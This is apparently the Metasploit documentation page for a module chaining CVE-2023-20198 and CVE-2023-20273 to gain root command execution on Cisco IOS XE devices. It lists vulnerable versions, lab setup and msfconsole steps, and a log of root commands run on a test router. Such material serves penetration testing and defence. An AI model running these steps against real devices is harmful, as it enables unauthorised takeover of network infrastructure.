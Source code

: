 ## Vulnerable Application
This module leverages both CVE-2023-20198 and CVE-2023-20273 against vulnerable instances of Cisco IOS XE
devices which have the Web UI exposed. An attacker can execute arbitrary OS commands with root privileges.

This module leverages CVE-2023-20198 to create a new admin user, then authenticating as this user,
CVE-2023-20273 is leveraged for OS command injection. The output of the command is written to a file and read
back via the webserver. Finally the output file is deleted and the admin user is removed.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
    * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
      can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows)
      to install GNS3 and the [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn
      how GNS3 can be used.
    * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
    * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
    * Create a new CSR1000V instance as a QEMU device.
    * The CSR1000V device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter is bridged
      to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
      be accessible to a remote attacker.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "id"`
5. `run`

## Scenarios

```
msf6 > use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set RHOST 192.168.86.57
RHOST => 192.168.86.57
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set CMD "id"
CMD => id
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CMD                    id               yes       The OS command to execute.
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   REMOVE_OUTPUT_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to removing the commands output file.
   RHOSTS                 192.168.86.57    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                  443              yes       The target port (TCP)
   SSL                    true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run
[*] Running module against 192.168.86.57

[*] uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run CMD="uname -a"
[*] Running module against 192.168.86.57

[*] Linux router 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) >  run CMD="cat /etc/release"
[*] Running module against 192.168.86.57

[*] # Needed for open-vm-tools
# Copyright (c) 2016 by Cisco Systems, Inc., All rights reserved.
DISTRIB_ID=Cisco
DISTRIB_RELEASE=3.10.84
DISTRIB_CODENAME=IOS-XE
DISTRIB_DESCRIPTION="Monte Vista Linux"

[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > 
```